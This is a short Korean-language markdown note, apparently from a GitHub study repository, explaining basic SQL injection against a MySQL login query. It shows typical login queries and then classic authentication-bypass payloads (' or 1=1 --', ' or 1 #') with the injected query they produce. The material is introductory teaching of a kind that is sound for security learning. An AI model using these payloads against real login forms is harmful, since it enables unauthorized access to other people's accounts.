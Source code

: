 # GENERAL SQL injection
<br><br><br><br>
> ( ) <- 강조 ( ) 기호는 제외

<br><br><br><br>

__Mysql 대표적인 login query__
***

~~~~sql

SELECT * FROM member WHERE userId = 'input id' and userPw = 'input pw';

-> 입력받은 id , pw 체크

SELECT * FROM member WHERE userId = 'input id';

-> 입력받은 id 만 체크한 후 서버 파일에서 입력받은 id 와 Mysql 결과의 비밀번호와 비교

~~~~
<br><br><br>

__Mysql Login Sql injection__
***

~~~~sql

' or 1=1 --'
' or 1 #'
'
입력 결과

SELECT * FROM member userId = '' or 1=1 --'' and userPw = '';

->1=1 or 1 참이 되는 값
~~~~
<br><br>
